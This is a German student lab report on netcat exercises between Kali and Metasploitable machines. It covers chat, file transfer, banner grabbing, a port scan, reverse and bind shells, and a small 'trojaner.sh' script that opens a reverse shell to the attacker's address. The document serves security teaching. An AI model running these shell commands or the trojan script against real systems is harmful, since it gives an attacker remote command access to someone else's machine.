

# ITSE Arbeitsbericht

Klasse: 4AHITS  
Name: Florian Zöhner   
Fach: ITSE-Labor   
Datum: 26.01.2026

## Übung (netcat chat)

#### Metasploitable (Terminal 1) – Listener starten:
bashnc -lvp 4444
#### Kali (Terminal 1) – Verbinden:
bashnc 192.168.5.51 4444

## Übung (netcat data send)

#### Metasploitable – Empfänger:
bashnc -lvp 4444 > empfangen.txt
#### Kali – Datei erstellen und senden:
echo "Hallo das ist mein Text!" > meine_datei.txt
 
nc 192.168.5.51 4444 < meine_datei.txt
#### Metasploitable – Ergebnis prüfen:
bashcat empfangen.txt

## Übung (netcat banner grabbing)

## Übung (netcat banner grabbing II)

#### Auf Kali – Metasploitable:
printf "HEAD / HTTP/1.0\r\n\r\n" | nc 192.168.5.51 80

#### Externe Seiten:
printf "HEAD / HTTP/1.0\r\n\r\n" | nc example.com 80
printf "HEAD / HTTP/1.0\r\n\r\n" | nc htlbraunau.at 80

## Übung (netcat port scanning)

Befehl: nc -zvw 1 192.168.5.51 1-1000 2>&1 | grep succeeded

Offenen Ports:

Connection to 192.168.5.51 21 port [tcp/ftp] succeeded!
 
Connection to 192.168.5.51 22 port [tcp/ssh] succeeded! 
 
Connection to 192.168.5.51 23 port [tcp/telnet] succeeded!  
 
Connection to 192.168.5.51 25 port [tcp/smtp] succeeded! 
 
Connection to 192.168.5.51 53 port [tcp/domain] succeeded! 
 
Connection to 192.168.5.51 80 port [tcp/http] succeeded! 
 
Connection to 192.168.5.51 443 port [tcp/https] succeeded! 

  
Banner Grabbing:

nc 192.168.5.51 21

Was mann herrausfinden konnte:

Dienst: FTP
Software: vsFTPd
Version: 2.3.4

## Übung netcat (reverse shell)

#### Kali – Listener starten:
bashnc -lvp 4242
#### Metasploitable – Reverse Shell starten:
bashnc -e /bin/bash 192.168.5.53 4242
#### Kali – mann hat jetzt eine Shell auf Metasploitable:
bashwhoami
hostname
ip a

## Übung (netcat bind shell)

#### Metasploitable – Bind Shell bereitstellen:
bashnc -lvp 4444 -e /bin/bash
#### Kali – verbinden:
bashnc 192.168.5.51 4444
Jetzt auf Kali (du bist auf Metasploitable):
bash# Trojaner Script erstellen:
cat > ~/trojaner.sh << 'EOF'
#!/bin/bash
nc -e /bin/bash 192.168.5.53 5555
EOF

#### Ausführbar machen:
chmod u+x ~/trojaner.sh 

#### Prüfen:
cat ~/trojaner.sh
ls -la ~/trojaner.sh

